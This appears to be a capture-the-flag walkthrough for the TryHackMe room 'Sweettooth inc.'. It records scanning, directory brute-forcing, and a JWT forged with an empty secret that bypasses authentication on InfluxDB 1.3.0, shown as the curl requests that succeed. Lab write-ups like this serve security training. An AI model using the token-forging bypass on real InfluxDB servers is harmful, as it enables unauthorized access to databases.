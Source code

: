 # Sweettooth inc.

![image](https://user-images.githubusercontent.com/5285547/126913536-e9fa3f39-06fa-4a83-aaab-250e553042c8.png)
Link: https://tryhackme.com/room/sweettoothinc

## Desc


## Nmap

```
PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34479/tcp6  status
|   100024  1          40714/udp   status
|   100024  1          46300/tcp   status
|_  100024  1          49237/udp6  status
2222/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
8086/tcp open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

Enumeration gave up some credentials  
http://10.10.219.78:8086/debug/requests

![image](https://user-images.githubusercontent.com/5285547/126914960-41ce25e3-5324-43da-b78b-e4c14de0d037.png)

creds
```
o5yY6yya:127.0.0.1
```

## Directory brute

```
gobuster dir -u http://10.10.219.78:8086/  -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 30 

/status               (Status: 204) [Size: 0]
/query                (Status: 401) [Size: 55]
/ping                 (Status: 204) [Size: 0] 
/write                (Status: 405) [Size: 19]
```
Looking this up online I came across some documentation for the API:  
https://docs.influxdata.com/influxdb/v1.3/tools/api/#write

![image](https://user-images.githubusercontent.com/5285547/126915118-8b5be70b-b0a7-4a72-be93-333aa3915a6a.png)

The same things we see. Let's try some of the commands. 

```
curl http://10.10.219.78:8086/ping -v -X HEAD

*resp
< HTTP/1.1 204 No Content
< Content-Type: application/json
< Request-Id: 0cf9d36b-ed96-11eb-822a-000000000000
< X-Influxdb-Version: 1.3.0

# Influxdb-Version: 1.3.0
```

## JWT

```
GET /query HTTP/1.1
Host: 10.10.219.78:8086
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzaGFyZWRfc2VjcmV0IjoiIn0._FqCTRoFRDIK9srW-ml6Btqp5ItmIfwC7vLyiG8PqzQ
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

response
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Request-Id: c226eacd-ed9c-11eb-9104-000000000000
Www-Authenticate: Basic realm="InfluxDB"
X-Influxdb-Version: 1.3.0
Date: Sun, 25 Jul 2021 23:05:09 GMT
Content-Length: 33
Connection: close

{"error":"signature is invalid"}

```

I found this article that helped me make a payload.  
https://www.komodosec.com/post/when-all-else-fails-find-a-0-day

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E
```

![image](https://user-images.githubusercontent.com/5285547/127043648-fd68da50-ed08-417e-8793-ee5220a4e3c9.png)

```
curl http://10.10.27.198:8086/query -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E"

{"error":"missing required parameter \"q\""}
```

